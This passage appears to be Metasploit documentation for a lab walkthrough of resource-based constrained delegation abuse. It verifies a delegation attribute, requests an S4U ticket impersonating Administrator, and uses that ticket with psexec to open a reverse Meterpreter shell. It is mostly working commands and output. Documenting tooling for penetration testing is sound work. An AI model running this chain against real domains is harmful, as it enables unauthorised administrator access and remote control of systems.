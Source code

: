 Reading the value of `msDS-AllowedToActOnBehalfOfOtherIdentity` to verify the value is updated:

```msf
msf auxiliary(admin/ldap/rbcd) > read
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[*] Allowed accounts:
[*]   DESKTOP-QLSTR9NW$ (S-1-5-21-3402587289-1488798532-3618296993-1655)
[*] Auxiliary module execution completed
msf auxiliary(admin/ldap/rbcd) >
```

Next we can use the `auxiliary/admin/kerberos/get_ticket` module to request a new S4U impersonation ticket for the Administrator
account using the previously created machine account. For instance requesting a service ticket for SMB access:

```msf
msf auxiliary(admin/kerberos/get_ticket) > run action=GET_TGS rhost=192.168.159.10 username=DESKTOP-QLSTR9NW password=A2HPEkkQzdxQirylqIj7BxqwB7kuUMrT domain=msflab.local spn=cifs/ws01.msflab.local impersonate=Administrator
[*] Running module against 192.168.159.10

[+] 192.168.159.10:88 - Received a valid TGT-Response
[*] 192.168.159.10:88 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_533930.bin
[*] 192.168.159.10:88 - Getting TGS impersonating Administrator@msflab.local (SPN: cifs/ws01.msflab.local)
[+] 192.168.159.10:88 - Received a valid TGS-Response
[*] 192.168.159.10:88 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_962080.bin
[+] 192.168.159.10:88 - Received a valid TGS-Response
[*] 192.168.159.10:88 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_614556.bin
[*] Auxiliary module execution completed
```

The saved TGS can be used in a pass-the-ticket style attack. For instance using the `exploit/windows/smb/psexec` module for a reverse shell:

```msf
msf exploit(windows/smb/psexec) > run lhost=192.168.123.1 rhost=192.168.159.10 username=Administrator smb::auth=kerberos smb::rhostname=ws01.msflab.local domaincontrollerrhost=192.168.159.10 smbdomain=msflab.local smb::krb5ccname=/Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_614556.bin

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.159.10:445 - Connecting to the server...
[*] 192.168.159.10:445 - Authenticating to 192.168.159.10:445|msflab.local as user 'Administrator'...
[*] 192.168.159.10:445 - Loaded a credential from ticket file: /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_614556.bin
[*] 192.168.159.10:445 - Selecting PowerShell target
[*] 192.168.159.10:445 - Executing the payload...
[+] 192.168.159.10:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.159.10
[*] Meterpreter session 3 opened (192.168.123.1:4444 -> 192.168.159.10:60755) at 2023-02-22 10:00:01 +0000

meterpreter >
```
